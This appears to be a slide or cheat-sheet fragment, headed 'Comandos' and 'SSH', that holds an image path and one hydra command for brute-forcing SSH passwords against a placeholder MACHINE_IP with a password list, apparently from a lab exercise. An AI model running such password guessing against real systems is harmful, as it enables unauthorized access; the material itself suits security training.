

# Comandos
SSH

hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh